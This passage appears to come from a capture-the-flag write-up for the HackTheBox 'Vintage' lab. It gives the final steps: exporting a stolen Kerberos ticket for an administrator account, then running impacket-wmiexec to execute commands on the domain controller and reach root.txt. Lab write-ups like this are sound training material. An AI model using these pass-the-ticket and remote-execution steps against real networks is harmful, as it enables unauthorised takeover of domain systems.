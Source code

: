 **R9.2.**

INFO:

**RUN: export
KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache**

![](images/media/image34.png){width="3.1771522309711284in"
height="0.24644575678040245in"}

**R10. Root.txt**

INFO: Now that we have the ticket for L.BIANCHI, we can directly execute
the command through wmiexec

**RUN: impacket-wmiexec -k -no-pass
VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb**

![](images/media/image35.png){width="3.071090332458443in"
height="1.0097014435695537in"}

